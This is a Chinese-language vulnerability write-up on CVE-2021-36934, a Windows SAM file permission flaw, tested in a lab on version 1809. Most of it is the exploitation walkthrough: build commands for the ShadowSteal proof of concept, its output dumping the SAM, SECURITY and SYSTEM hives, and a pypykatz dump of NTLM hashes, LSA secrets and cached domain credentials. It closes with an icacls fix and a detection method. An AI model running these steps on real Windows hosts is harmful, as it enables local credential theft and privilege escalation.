






## 一、漏洞描述

多个系统文件的ACL配置过于宽松，包括 SAM 文件，导致在某些情况下内建普通用户组可以操作SAM达到本地提权的效果。

windows >= 1809 (20H2测试失败，1809成功)

## 二、简单分析

通过对比了一下20H2、1809版本的 SAM 文件的权限：

20H2:



1809:



受影响的系统的 SAM 文件对于 Users 组成员是有读取(R)、执行(X)权限的。

当然，如果直接去读取 sam，可能会发生“另一个进程正在占用该文件”的情况：



这种情况造成的文件打不开，可以使用 VSS（卷影复制）功能打破这种僵局，卷影创建需要管理员权限，但是如果开启了以下功能之一都有可能被该漏洞利用来读取SAM：



公开POC都是基于系统还原功能。

## 三、利用条件

版本符合漏洞影响范围（官方CVE信息里是>=1809，但是20H2我测试失败）；
开启 系统保护 功能，并已经存在一个系统还原点。（我测试的两个版本，这个功能默认不开启）；

## 四、测试机

windows 1809/20H2，1809上测试成功

需要提前目标机器开启 系统保护：



然后手动创建一个还原点。

## 五、利用过程

POC：[https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)

```bash
sudo apt-get install nim mingw-w64
nimble install zippy argparse
git clone https://github.com/HuskyHacks/ShadowSteal.git && cd ShadowSteal
make && cd bin/
```

将编译好的exe放到目标机器上执行 .\ShadowSteal -t 将 SAM 文件导出。

```cmd
C:\Users\demouser\Desktop>.\ShadowSteal.exe -t
[*] Triage mode enabled.
[*] Executing ShadowSteal...
[*] Time: 202107230151
[*] Searching for shadow volumes on this host...
[*] Checking HarddiskVolumeShadowCopy10
[-] No :(
[*] Checking HarddiskVolumeShadowCopy9
[-] Nope
[*] Checking HarddiskVolumeShadowCopy8
[-] Not there
[*] Checking HarddiskVolumeShadowCopy7
[-] Not there
[*] Checking HarddiskVolumeShadowCopy6
[-] Nope
[*] Checking HarddiskVolumeShadowCopy5
[-] No
[*] Checking HarddiskVolumeShadowCopy4
[-] No
[*] Checking HarddiskVolumeShadowCopy3
[-] No :(
[*] Checking HarddiskVolumeShadowCopy2
[-] Nein
[*] Checking HarddiskVolumeShadowCopy1
[+] Hit!
[+] HarddiskVolumeShadowCopy1 identified.
[+] Highest Shadow Volume located: HarddiskVolumeShadowCopy1
[*] This likely has the most up to date credential information. Exploiting!
[+] Exfiltrating the contents of the config directory...
[+] Hives extracted!
[*] Compressing... 202107230151_ShadowSteal.zip
[+++] SUCCESS!
[+++] SAM, SECURITY, and SYSTEM Hives have been extracted to 202107230151_ShadowSteal.zip
 
[*] Done! Happy hacking!
 
C:\Users\demouser\Desktop>
```

将生成的压缩包里的三个文件用mimikatz解出hash：

```bash
λ git main* → pypykatz registry SYSTEM_2021-07-23T13:30:06+08:00 --sam SAM_2021-07-23T13:30:06+08:00 --security SECURITY_2021-07-23T13:30:06+08:00
WARNING:pypykatz:SOFTWARE hive path not supplied! Parsing SOFTWARE will not work
============== SYSTEM hive secrets ==============
CurrentControlSet: ControlSet001
Boot Key: d48a183c059ae1cb952006b921c26806
============== SAM hive secrets ==============
HBoot Key: 706fe00b6326570dfe0482e07b9cb23410101010101010101010101010101010
Administrator:500:aad3b435b51404eaaad2b435b51408ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:dacba5694517e603771739b2ad409695:::
demouser:1001:aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4:::
============== SECURITY hive secrets ==============
Iteration count: 10240
Secrets structure format : VISTA
LSA Key: 40721acd84c4b68c5317bc504597b3414e09ddce01377180a8829d9a9bc9a779
NK$LM Key: 40000000000000000000000000000000b4a04dd3477c10bc2fe91cd6de27b109c640d9449e5402e1554e694a56b498bf0190d8adf6c270fbca57218ddb301efa11099e667a2c7bd27220c19f262c00431b6b150cb6f29988c7bede97575d9866
TEST.COM/demo:$DCC2$10240#demo#d7e88c4995b9d0607bfc7aeefa6fb6d5
TEST.COM/Administrator:$DCC2$10240#Administrator#b2071403e7735baeedd89100d54ebb5d
=== LSA Machine account password ===
History: False
NT: 5d7694a018e7f717177d982f4f81e6f8
Password(hex): 6a00370049004100750064002f0042002e004900260050004500730044006a007200420033006e0073003600350027006f004600410042003e005d003f004c004d00250079007a0053006f00670052005e002600540072004e0054006c006600680024007200730077006d00790068007a0035002d003e004800710067004e0044005d005e004f0077003e006f006c006000230056003300600051004f002c002b00500046006f0068002e00230032002a006c0065003900370046005c006d002b003e006e0075004b006f0034005f003d0049002b005e0058006b003b005f002400610028006400490054003a005900
Kerberos password(hex): 6a37494175642f422e4926504573446a7242336e733635276f4641423e5d3f4c4d25797a536f67525e2654724e546c6668247273776d79687a352d3e4871674e445d5e4f773e6f6c6023563360514f2c2b50466f682e23322a6c653937465c6d2b3e6e754b6f345f3d492b5e586b3b5f2461286449543a59
=== LSA Machine account password ===
History: True
NT: 5d7694a018e7f717177d982f4f81e6f8
Password(hex): 6a00370049004100750064002f0042002e004900260050004500730044006a007200420033006e0073003600350027006f004600410042003e005d003f004c004d00250079007a0053006f00670052005e002600540072004e0054006c006600680024007200730077006d00790068007a0035002d003e004800710067004e0044005d005e004f0077003e006f006c006000230056003300600051004f002c002b00500046006f0068002e00230032002a006c0065003900370046005c006d002b003e006e0075004b006f0034005f003d0049002b005e0058006b003b005f002400610028006400490054003a005900
Kerberos password(hex): 6a37494175642f422e4926504573446a7242336e733635276f4641423e5d3f4c4d25797a536f67525e2654724e546c6668247273776d79687a352d3e4871674e445d5e4f773e6f6c6023563360514f2c2b50466f682e23322a6c653937465c6d2b3e6e754b6f345f3d492b5e586b3b5f2461286449543a59
=== LSA DPAPI secret ===
History: False
Machine key (hex): 93545f81515ff9fdab411086a76a036ef01c50c8
User key(hex): 8c64aaf5e7411b3ab01a795f32bc0daa16c0cd92
=== LSA DPAPI secret ===
History: True
Machine key (hex): e32bd15e3ee27c47721a2760b87998c6f6ba69fd
User key(hex): 5402ec8e185cc7c35d117e6653f8cbae6b7d9878
=== LSASecret NL$KM ===
 
History: False
Secret:
00000000:  b4 a0 4d d3 47 7c 10 bc  2f e9 1c d6 de 27 b1 09   |..M.G|../....'..|
00000010:  c6 40 d9 44 9e 54 02 e1  55 4e 69 4a 56 b4 98 bf   |.@.D.T..UNiJV...|
00000020:  01 90 d8 ad f6 c2 70 fb  ca 57 21 8d db 30 1e fa   |......p..W!..0..|
00000030:  11 09 9e 66 7a 2c 7b d2  72 20 c1 9f 26 2c 00 43   |...fz,{.r ..&,.C|
=== LSASecret NL$KM ===
 
History: True
Secret:
00000000:  b4 a0 4d d3 47 7c 10 bc  2f e9 1c d6 de 27 b1 09   |..M.G|../....'..|
00000010:  c6 40 d9 44 9e 54 02 e1  55 4e 69 4a 56 b4 98 bf   |.@.D.T..UNiJV...|
00000020:  01 90 d8 ad f6 c2 70 fb  ca 57 21 8d db 30 1e fa   |......p..W!..0..|
00000030:  11 09 9e 66 7a 2c 7b d2  72 20 c1 9f 26 2c 00 43   |...fz,{.r ..&,.C|
```

demouser 的 nthash 为 32ed87bdb5fdc5e9cba88547376818d4，通过在线破解可知密码为 123456:



## 六、漏洞修复

参考：[https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)

还没有补丁，可以通过手动修改 config 目录中所有文件的 ACL 进行修复：

```cmd
icacls %windir%\system32\config\*.* /inheritance:e
```

然后，将已经存在的系统还原点删除重新创建。（或者直接关闭系统保护功能）。

## 七、漏洞检测

根据 SAM 文件 ACL 判断 Users 用户组是否有权限读取。

## 八、参考链接

- [https://github.com/HuskyHacks/ShadowSteal](https://github.com/HuskyHacks/ShadowSteal)
- [https://twitter.com/jonasLyk/status/1417205166172950531](https://twitter.com/jonasLyk/status/1417205166172950531)
- [https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-36934)
- [https://docs.microsoft.com/zh-cn/windows-server/storage/file-server/volume-shadow-copy-service](https://docs.microsoft.com/zh-cn/windows-server/storage/file-server/volume-shadow-copy-service)
